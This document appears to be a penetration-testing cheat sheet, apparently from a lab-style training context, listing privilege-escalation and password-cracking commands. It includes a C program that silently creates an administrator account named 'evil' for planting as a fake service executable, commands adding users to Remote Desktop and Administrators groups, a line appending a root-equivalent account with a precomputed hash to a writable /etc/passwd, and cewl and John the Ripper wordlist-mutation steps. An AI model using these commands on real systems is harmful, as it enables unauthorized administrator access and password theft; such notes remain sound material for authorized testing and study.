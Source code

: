 ### Add user in remote users group
```
net localgroup "Remote Desktop Users" UserLoginName  /add
```

### Fake exe to exploit insecure service
```
#include <stdlib.h>

int main () {
int i;
i = system ("net user evil Ev!lpass /add");
i = system ("net localgroup administrators evil /add");
//i = system ("net localgroup 'Remote Desktop Users' evil  /add");
return 0;
}

//i686-w64-mingw32-gcc adduser.c -o adduser.exe
```

### Start and stop service
```
net stop serviio
net start serviio
```
### Get auto running service
`
wmic service where caption="Serviio" get name, caption, state, startmode
`

### Check Admin users
`
net localgroup Administrators
`

## Linux Privilege escalation 

### /etc/passwd writable
```
openssl passwd evil
echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd
```

## Password Cracking 

### Cewl and john
```
cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt

Add $[0-9]$[0-9] into /etc/john/john.conf and run 

john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt
```
